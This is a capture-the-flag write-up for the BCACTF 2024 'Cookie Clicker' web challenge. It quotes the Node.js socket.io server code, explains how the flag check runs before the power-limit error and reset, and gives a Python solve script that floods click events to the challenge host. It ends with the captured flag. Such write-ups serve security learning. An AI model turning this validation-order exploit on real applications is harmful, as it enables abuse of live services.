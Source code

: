 ```yaml
---
layout: writeup
category: BCACTF
chall_description: 
points: 100
solves: 115
tags: web BCACTF
date: 2024-06-11
comments: false
---
```



## Description
This one was a decent challenge. After wasting hours on writing socketio code in python to manually test it I realized it had race condition, in any case it was fun. Now let's dive into it.


## Enumeration
This challenge was written in node js and provided source code for it. 

```js
io.on('connection', (socket) => {
    sessions[socket.id] = 0
    errors[socket.id] = 0

    socket.on('disconnect', () => {
        console.log('user disconnected');
    });

    socket.on('chat message', (msg) => {
        socket.emit('chat message', msg);
    });

    socket.on('receivedError', (msg) => {
        sessions[socket.id] = errors[socket.id]
        socket.emit('recievedScore', JSON.stringify({"value":sessions[socket.id]}));
    });

    socket.on('click', (msg) => { 
        let json = JSON.parse(msg)
        if (sessions[socket.id] > 1e20) {
            socket.emit('recievedScore', JSON.stringify({"value":"FLAG"}));
            return;
        }
        ...
        ...
    });
});
```


It uses `socket-io` to interact with the user and manages sessions based on socketid. Socket has deafault on connection and on disconnect function, it also has a chat message option probably for debugging purposes. For the main logic part, two functions click and recievedError are present.

### on click
On click function is triggered when cookie is clicked on the clients end and updates the cookie value based on `newValue = Math.floor(Math.random() * json.power) + 1 + oldValue`. The value of power cannot be greater than 10. It emits recievedScore or error based on checks and If cookie value is greater than 1e20 it returns the flag.

## Solution


```js
    socket.on('click', (msg) => {
        let json = JSON.parse(msg)

        if (sessions[socket.id] > 1e20) {
            socket.emit('recievedScore', JSON.stringify({"value":"FLAG"}));
            return;
        }

        if (json.value != sessions[socket.id]) {
            socket.emit("error", "previous value does not match")
        }

        let oldValue = sessions[socket.id]
        let newValue = Math.floor(Math.random() * json.power) + 1 + oldValue

        sessions[socket.id] = newValue
        socket.emit('recievedScore', JSON.stringify({"value":newValue}));

        if (json.power > 10) {
            socket.emit('error', JSON.stringify({"value":oldValue}));
        }

        errors[socket.id] = oldValue;
    });
```

If you notice `sessions[socket.id] = newValue`, cookie value is stored in global sessions then if power is greater than 10 it emits error and on the client-side js is error is recieved it sends receivedError to server which basically resets the cookie back to `oldvalue`.  

Another thing is that on click function first checks for cookie value to return the flag then performs the checks to emits error.

Based on above two points if we send two requests with power `1e21` we will get the flag. I wrote then following script to connectto the socket-io using python. 


```python
import json
import socketio
 
#sio = socketio.SimpleClient(logger=True, engineio_logger=True)
sio = socketio.SimpleClient()
sio.connect("http://challs.bcactf.com:31386/socket-io") 

sio.emit('chat message', "Hello World!")
event = sio.receive()
print(f'Test Event Recieved: "{event[0]}" with arguments {event[1:]}')
 
sid_value = 0 
power = 1e21
while True:
    sio.emit('click', json.dumps({"power":power, "value":sid_value}) )
    event = sio.receive()
    flag = json.loads(event[1:][0])["value"]   
    print(f'Click Response: "{event[0]}" with {event[1:][0]} | Current Sid Value: {sid_value}') 

    try:
        if flag.startswith("bcactf"):
            print(f"Flag: {flag}")
            exit()
    except AttributeError:
        pass
```
[Github Link](https://github.com/Harshad07/CTF-Solutions/blob/main/2024/BCACTF/Cookie%20Clicker/solve.py)


![Branching](/assets/CTFs/BCACTF/cookie-clicker.jpg)


`bcactf{H0w_Did_Y0u_Cl1ck_S0_M4ny_T1mes_123}`

